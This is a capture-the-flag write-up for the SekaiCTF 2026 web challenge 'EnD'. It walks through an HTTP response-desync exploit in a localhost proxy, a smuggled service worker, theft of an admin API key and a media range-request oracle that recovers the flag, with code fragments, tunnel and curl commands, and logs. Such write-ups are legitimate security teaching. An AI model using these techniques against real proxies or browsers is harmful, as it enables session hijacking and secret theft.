




# SekaiCTF 2026 - EnD

**Category:** Web  
**Difficulty:** Expert  
**Points:** 199  
**Author:** zonkor  
**Solved on:** 2026-06-30  
**Flag:** `SEKAI{proxy_said_n0_w4y_l0ng_W4y_4nD_f1n4lllyyy_Y0u_are_H3r3_here_eda1ndj}`

## Summary

EnD is a localhost browser game built around two services:

- the proxy at `http://localhost:3000`
- the API at `http://localhost:9090`

The intended wall is that `/add` only accepts public URLs, the proxy strips cookies before forwarding, and every proxied page gets a restrictive CSP.

The actual solve is a browser-side chain:

1. Register a public attacker page through `/add`.
2. Visit it through `/view/<name>/` so it is same-origin with `http://localhost:3000`.
3. Abuse the proxy's `Sec-Fetch-Dest: script` handling to perform response desync.
4. Turn that into JavaScript execution on `http://localhost:3000`.
5. Smuggle a service worker with `Service-Worker-Allowed: /` and a relaxed CSP.
6. Read `/admin` to steal the API key.
7. Use a ranged media request plus the service worker as a prefix oracle against `localhost:9090`.
8. Recover the flag one character at a time from `SEKAI{`.

This is one of those challenges where the sentence "I used a smuggled service worker to brute-force a localhost secret through a WAV range oracle" is both ridiculous and accurate.

## Screenshots

Challenge card:



Final leaderboard:



## High-Level Idea

The proxy is trying hard to be safe:

- `/add` only accepts `http` and `https`
- hostnames must look public
- the proxy resolves DNS itself and blocks private IPs
- cookies and `Referer` are stripped before forwarding
- proxied responses receive:

```text
Content-Security-Policy:
default-src 'self'; script-src 'self'; ... ; worker-src 'self'
```

The bug is in how script responses are rewritten:

```js
if (req.headers['sec-fetch-dest'] === 'script') {
  h['content-length'] = '0'
  delete h['transfer-encoding']
}

res.writeHead(proxyRes.statusCode, proxyRes.statusMessage, h)
proxyRes.pipe(res)
```

That says "this script response has zero bytes", but the proxy still streams the body anyway. In a keep-alive connection, those leftover bytes can be parsed by the browser as the next HTTP response. That is the whole challenge.

## Vulnerability Chain

### 1. Register attacker content without breaking the public-host filter

The public endpoint:

```text
GET /add?name=<name>&url=<public-url>&desc=<desc>
```

stores our page under:

```text
/view/<name>/
```

The important detail is that the admin bot later visits `http://localhost:3000/view/<name>/`, not the public URL directly. So a public tunnel is enough to seed attacker content, and once the bot loads the proxied view, our content lives under the localhost proxy origin.

For remote reliability I used `localhost.run` instead of Cloudflare Tunnel. Cloudflare preserved most of the traffic, but `localhost.run` was much more stable for the desync behavior.



### 2. Response desync via `Sec-Fetch-Dest: script`

The attacker page returns a document with many script tags:

```html
<script src="xss.js?v=1"></script>
<script src="xss.js?v=2"></script>
...
```

Each `xss.js` request goes through the proxy with:

```text
Sec-Fetch-Dest: script
```

Our attacker server answers with a body that is itself a complete HTTP response:

```text
HTTP/1.1 200 OK
Content-Type: text/javascript
Content-Length: ...
Connection: keep-alive

<actual JavaScript>
```

The proxy rewrites the outer response to `Content-Length: 0` but still pipes the bytes. Chromium consumes zero bytes for the current script, then interprets the remaining bytes as the next response on the same connection. That turns a blocked proxied script into real JavaScript execution on `http://localhost:3000`.

### 3. Smuggle a service worker with no useful CSP

Getting one script execution is enough, but the real win is registering a service worker on `/`.

I used the exact same desync primitive again for `/sw.js`, this time smuggling response headers like:

```text
Service-Worker-Allowed: /
Cache-Control: no-store
Content-Security-Policy: default-src * data: blob:; connect-src * http://localhost:9090 ...
```

The service worker is now same-origin with the proxy and controls the whole localhost site.

This is the point where the challenge goes from "cute response smuggling" to "I own the browser's idea of localhost now."



### 4. Read `/admin` and steal the API key

The proxy's admin page renders both the API URL and the API key into HTML:

```html
<p>Key: <code id="api-key">{{API_KEY}}</code></p>
<p>API: <code id="api-url">{{API_URL}}</code></p>
```

Once we execute on `http://localhost:3000`, reading it is trivial:

```js
const res = await fetch('/admin', { credentials: 'include', cache: 'no-store' })
const html = await res.text()
```

From the successful run:

```text
[BEACON] admin => API_KEY=37e81eb38cafce6d API_URL=http://localhost:9090
```

### 5. Turn the API into a prefix oracle

The API stores the flag as the only inbox message:

```py
_INBOX = [_SECRET]
```

and exposes:

```py
results = [m for m in _INBOX if m.startswith(q)]
return send_file(
    io.BytesIO(data),
    mimetype="application/json",
    conditional=True,
)
```

So if we know the API key, `/messages/search?key=...&q=<prefix>` tells us whether `<prefix>` matches the start of the flag.

The catch is same-origin policy. The service worker solves that.

The oracle works like this:

1. Create an `<audio>` element pointing to `http://localhost:9090/messages/search?...`.
2. The service worker intercepts the media request.
3. For the first request, it returns a fake `206` WAV header and claims one extra byte remains.
4. Chromium asks for the tail using a range request.
5. The service worker forwards that tail request to the real API and stores the response.
6. Whether that ranged tail exists becomes the hit/miss signal.

In other words, we turn the browser's media stack into a boolean oracle:

- valid prefix -> ranged follow-up behaves like a hit
- invalid prefix -> ranged follow-up behaves like a miss

The solver sanity-checks the oracle before brute force:

```text
[BEACON] sanity => hit=true miss=false
```

### 6. Brute-force the flag

After that, the exploit is just disciplined character recovery:

```text
known = "SEKAI{"
alphabet = "_abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ{}!?#$%&*+-./:;=@^~"
```

Try `known + c` for every candidate, keep the one that returns `true`, and repeat until `}`.

Successful run excerpt:

```text
[BEACON] progress => SEKAI{proxy_said_n0_w4y_l0ng_W4y_4nD_f1n4lllyyy_Y0u_are_H3r3_here_eda1ndj}
[BEACON] FLAG => SEKAI{proxy_said_n0_w4y_l0ng_W4y_4nD_f1n4lllyyy_Y0u_are_H3r3_here_eda1ndj}
```

## Exploit

Files:

- [`solve.py`](./solve.py) - Python attacker server and solver

The Python solver is a direct port of the original JavaScript exploit flow:

- serves the attacker landing page
- smuggles the stage script
- smuggles the service worker
- logs progress beacons
- resumes brute force from saved state

### Remote Run

Tested flow:

```bash
python3 solve.py --host 127.0.0.1 --port 8090 --tags 64 --view-name evil2
ssh -o StrictHostKeyChecking=no -R 80:127.0.0.1:8090 nokey@localhost.run
```

Then submit two URLs to the bot:

1. Register the public tunnel inside the localhost proxy:

```text
http://localhost:3000/add?name=evil2&url=https://<localhost.run-domain>&desc=test
```

2. Visit the proxied page:

```text
http://localhost:3000/view/evil2/
```

Example submit:

```bash
curl -X POST 'https://end-bot-2afc9c667ca6.instancer.sekai.team/submit' \
  --data-urlencode 'url=http://localhost:3000/add?name=evil2&url=https://<localhost.run-domain>&desc=test'

curl -X POST 'https://end-bot-2afc9c667ca6.instancer.sekai.team/submit' \
  --data-urlencode 'url=http://localhost:3000/view/evil2/'
```

## Proof Of Solve

Recovered flag:

```text
SEKAI{proxy_said_n0_w4y_l0ng_W4y_4nD_f1n4lllyyy_Y0u_are_H3r3_here_eda1ndj}
```

Useful beacons from the successful run:

```text
[BEACON] xss => origin=http://localhost:3000
[BEACON] swreg => ok=true
[BEACON] pwn => origin=http://localhost:3000
[BEACON] admin => API_KEY=37e81eb38cafce6d API_URL=http://localhost:9090
[BEACON] sanity => hit=true miss=false
[BEACON] FLAG => SEKAI{proxy_said_n0_w4y_l0ng_W4y_4nD_f1n4lllyyy_Y0u_are_H3r3_here_eda1ndj}
```

## Why The Chain Works

This challenge is a clean composition bug:

- the proxy trusts response framing after rewriting headers
- the bot trusts the proxy origin because it is localhost
- the admin page exposes secrets to that origin
- the API exposes prefix search on the flag
- Flask's conditional file responses give the range behavior needed for the oracle

None of those decisions is fatal alone. Put together, they let an attacker define what "same-origin localhost content" means inside the admin browser.

## Closing Note

The short version is:

> I registered a public page, made localhost desync itself, installed a smuggled service worker, stole the admin API key, and then bullied the audio stack into spelling the flag.
